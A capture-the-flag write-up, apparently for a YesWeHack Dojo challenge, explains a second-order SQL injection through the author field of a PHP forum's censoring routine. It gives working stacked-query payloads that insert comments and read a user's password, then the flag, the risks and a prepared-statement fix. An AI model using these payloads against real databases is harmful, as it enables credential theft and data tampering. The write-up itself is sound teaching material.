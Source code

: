 
# SQL Injection (CWE-89) trought $author parameter leading to information disclosure and database modification.

## DESCRIPTION

SQL injection is a type of security vulnerability that occurs when an attacker is able to insert or "inject" malicious SQL code into a query. This can happen when user input is not properly sanitized or validated before being used in an SQL query.

## EXPLOITATION

In this Dojo, we get access to a forum interface, where we can post a comment by inputing an author name and a message :

![](dojo37/img/ywh-1.png)

Let's take a look at the source code !

### 1. Code analysis

```php
$input_author = urldecode($author$); 
$input_comment = urldecode($comment); 

$stmt = $db->prepare(
    "INSERT INTO comments (post_id, author, comment, image) VALUES (1, :author, :comment, '<url>')"
);
$stmt->bindValue(":author", $input_author, SQLITE3_TEXT);
$stmt->bindValue(":comment", $input_comment, SQLITE3_TEXT);
$stmt->execute();

$lst_posts = [];

$posts = $db->query("SELECT * FROM posts");
while ($p = $posts->fetchArray(SQLITE3_ASSOC)) {
    $post = new Post();
    $post->makePost($p['author'], $p['banner'], $p['title'], $p['post']);

    $comments = $db->query(
        sprintf("SELECT author, comment, image FROM comments WHERE post_id = '%d'", $p["id"])
    );
    // Ban haters (haters gonna hate)
    while ($comment = $comments->fetchArray(SQLITE3_ASSOC)) {
        if ( preg_match("/(bad|terrible|worst|skid)/", $comment['comment']) ) {
            $db->exec(
                sprintf("UPDATE users SET banned = 1 WHERE username = '%s'", $comment['author'])
            );
            $post->addComment($comment["image"], $comment["author"], "*****", true);
        } else {
            $post->addComment($comment["image"], $comment["author"], $comment["comment"]);
        }
    }
    array_push($lst_posts, $post->get());
}

$db->close();
```

First, the code decode our parameters : `$input_author` and `$input_comment`
Then, using a prepared SQL statement (`$db->prepare`), it store the data inside the database.
Using prepared statement with SQL is the safest way to avoid SQL injection, so won't be able to inject anything on this part, let's continue.

Then, the code query the database to search for posts, and for each post, display the comments :
```php
$lst_posts = [];

$posts = $db->query("SELECT * FROM posts");
while ($p = $posts->fetchArray(SQLITE3_ASSOC)) {
    $post = new Post();
    $post->makePost($p['author'], $p['banner'], $p['title'], $p['post']);

    $comments = $db->query(
        sprintf("SELECT author, comment, image FROM comments WHERE post_id = '%d'", $p["id"])
    );
    // Ban haters (haters gonna hate)
    while ($comment = $comments->fetchArray(SQLITE3_ASSOC)) {
        if ( preg_match("/(bad|terrible|worst|skid)/", $comment['comment']) ) {
            $db->exec(
                sprintf("UPDATE users SET banned = 1 WHERE username = '%s'", $comment['author'])
            );
            $post->addComment($comment["image"], $comment["author"], "*****", true);
        } else {
            $post->addComment($comment["image"], $comment["author"], $comment["comment"]);
        }
    }
    array_push($lst_posts, $post->get());
}
```

This is where it get interesting : the code has a censoring feature.
When looping on the comments, the code search for offensive keyword (`bad,terrible,worst,skid`), and if one is found, it update the entry in the database by using the username linked to the comment. And if the first query where using prepared statement, this one doesn't ! It directly append the username inside the query, without any sanitization.

So this is where we need to strike :
```php
if ( preg_match("/(bad|terrible|worst|skid)/", $comment['comment']) ) {
    $db->exec(
	    sprintf("UPDATE users SET banned = 1 WHERE username = '%s'",
	    $comment['author'])
    );
    $post->addComment($comment["image"], $comment["author"], "*****", true);
}
```

We can include SQL code inside our username to trigger a SQL injection. To do so, we need to meet those requirements :
- Include one of the offensive keyword in our comment to provoke the database update
- In our username, add SQL code to inject a new comment with a users passwords

### 2. Injecting SQL code in the username :

Before injecting anything, let's test the censoring feature. To do so, we'll create a comment with one of the blacklisted words like `terrible`:

![](dojo37/img/ywh-2.png)

Now, let's try to inject SQL code to create a new comment :

```sql
INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz','SQL Injection','')
```

To inject it inside the username, we need to first add a username, then a single quote (`'`) and a semi-colon (`;`) to open a new statement. Then finish by commenting the rest of the statement (`--`) to avoid SQL errors :
```sql
Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz','SQL Injection','')--
```

So in the end the final query look like :
```sql
UPDATE users SET banned = 1 WHERE username = 'Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz','SQL Injection','')--
```

Lets' try it :

![](dojo37/img/ywh-3.png)

And it worked, we were able to create a new comment by appending SQL code to the username.

We can now use this to extract data from the database, such as users password :
```sql
Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Tihmz',(select password from users),'')--
```
## POC

By injecting SQL code inside the username, and provoking the censoring of the comment, we can execute SQL code and modify the database.
If we create a new comment for the current post, it will be displayed and can be used to extract data from the database, such as the password for the user `Brumens` :

**$author :**
```sql
Tihmz';INSERT INTO comments (post_id, author, comment, image) VALUES (1, 'Password',(SELECT password FROM users WHERE username = 'brumens'),'aaa')--
```
**$comment :**
```
terrible
```

![](dojo37/img/ywh-4.png)

> Flag : `FLAG{Vuln3r4b1li7y_Exp0s3d!!}`

## RISKS

The main risks for a SQL injection  are : 
- **Unauthorized Access**: Retrieve sensitive data from the database that the attacker should not have access to such as passwords and PII (Personally Identifiable Information).
- **Data Manipulation**: Modify, delete, or insert data into the database (like we did here).
- **Authentication Bypass**: Bypass authentication mechanisms to gain unauthorized access to the system (update a role from user to admin).
- **Database Corruption**: Corrupt the database by executing harmful SQL commands (like deleting data for services disruption)
## REMEDIATION

The easiest way to avoid SQL injection is to use prepared statement :
```php
$stmt = $db->prepare("UPDATE users SET banned = 1 WHERE username = :username");
$stmt->bindValue(":username", $comment['author'], SQLITE3_TEXT);
$stmt->execute();
```

That way, the username will not be interpreted as SQL code but only data.
This is the safer than any sanitization regarding SQL injection.

As always, thanks to Brumens for the fun challenge, and see you in the next one.

#### #YesWeRHackers
## REFERENCES

- [https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php)
